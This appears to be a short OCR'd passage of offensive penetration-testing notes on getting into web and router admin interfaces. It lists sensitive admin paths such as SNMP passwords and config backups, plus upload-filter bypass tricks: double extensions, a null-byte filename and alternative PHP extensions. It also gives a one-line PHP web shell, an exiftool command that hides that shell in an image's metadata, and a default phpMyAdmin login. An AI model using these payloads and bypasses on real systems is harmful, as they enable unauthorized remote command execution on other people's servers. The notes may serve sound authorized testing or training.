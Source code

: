     - /ViewLog.html (Logs)

    - /rpFWUpload.html (Tools

    - /DiagGeneral.html (Diagnostic)

    - /RemMagSNMP.html (SNMP Passwords)

    - /LAN_ClientList.html (Current DHCP Leases)

    - /RestoreCfg.html

    - /BackupCfg.html

### Upload page

- Upload shell to make reverse shell

- Bypass file upload filtering

- Rename it

    - `shell.php.jpg`

- Blacklisting bypass, change extension

    - php .phtml, .php, .php3, .php4, .php5, and .inc

    - bypassed by uploading an unpopular php extensions such as: pht, phpt, phtml, php3, php4, php5, php6

    - asp .asp, .aspx

    - perl .pl, .pm, .cgi, .lib

    - jsp .jsp, .jspx, .jsw, .jsv, and .jspf

    - Coldfusion .cfm, .cfml, .cfc, .dbm

- Whitelisting bypass

    - `file.php%00.png`

    - `shell.jpg.php`

    - If they check the content. Basically you just add the text "GIF89a;" before you shell-code. `<? system($_GET['cmd']);//or you can insert your complete shellcode ?>`

    - In image

        - `exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg`

        - `mv lo.jpg lo.php.jpg`

### Phpmyadmin

- Default login `root:pma`

### Identify WAF using `wafw00f`

### Exploitation
